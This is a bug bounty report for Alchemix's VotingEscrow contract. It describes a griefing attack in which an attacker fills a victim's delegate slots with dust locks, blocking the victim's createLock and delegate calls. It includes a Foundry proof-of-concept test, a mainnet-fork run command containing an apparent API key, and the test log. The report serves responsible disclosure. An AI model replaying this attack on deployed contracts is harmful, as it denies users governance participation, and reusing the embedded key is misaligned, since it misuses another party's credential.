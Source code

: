 
# Anyone can let user's delegates reach the upper limit causing users to be unable to add more delegates

Submitted on Thu May 16 2024 13:24:04 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31298

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro

Each user in the `VotingEscrow` contract has a maximum number of delegate $veToken. Any user can delegate his $veToken to other users. An attacker can exploit this to let user's delegate to reach the upper limit.

## Vulnerability Details

This bug involves `createLock` operation

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1040
                require(dstTokensOld.length + 1 <= MAX_DELEGATES, "dst would have too many tokenIds");
```

and `delegate` operation

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1110
                require(dstTokensOld.length + ownerTokenCount <= MAX_DELEGATES, "dst would have too many tokenIds");
```

In other words, an attacker can use this bug to DOS `createLock` and `delegate` operations of user.

**Suggested fix**

It is recommended that user can set the minimum number of individual delegates to prevent dust attacks

## Impact Details

An attacker can make the user no longer able to be delegated and mint $veToken. Causes users to be DOSed and may affect governance voting.

## References

None
        
## Proof of concept
The PoC patch

```diff
diff --git a/src/test/VotingEscrow.t.sol b/src/test/VotingEscrow.t.sol
index 6e828a3..73ca043 100644
--- a/src/test/VotingEscrow.t.sol
+++ b/src/test/VotingEscrow.t.sol
@@ -1015,4 +1015,25 @@ contract VotingEscrowTest is BaseTest {
 
         hevm.stopPrank();
     }
+
+    function testYttriumzzPocTemp() external {
+        address attacker = address(0xa77ac8e3);
+        address user = address(0xacc);
+        deal(bpt, attacker, 1e18);
+        deal(bpt, user, 1e18);
+
+        hevm.startPrank(attacker);
+        IERC20(bpt).approve(address(veALCX), type(uint256).max);
+        for (uint256 i = 0; i < veALCX.MAX_DELEGATES(); i++) {
+            veALCX.createLock(1, 0, true);
+        }
+        veALCX.delegate(user);
+        hevm.stopPrank();
+
+        hevm.startPrank(user);
+        IERC20(bpt).approve(address(veALCX), type(uint256).max);
+        hevm.expectRevert("dst would have too many tokenIds");
+        veALCX.createLock(1, 0, true);
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testYttriumzzPocTemp() (gas: 764132469)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.47s (3.45s CPU time)

Ran 1 test suite in 4.46s (3.47s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


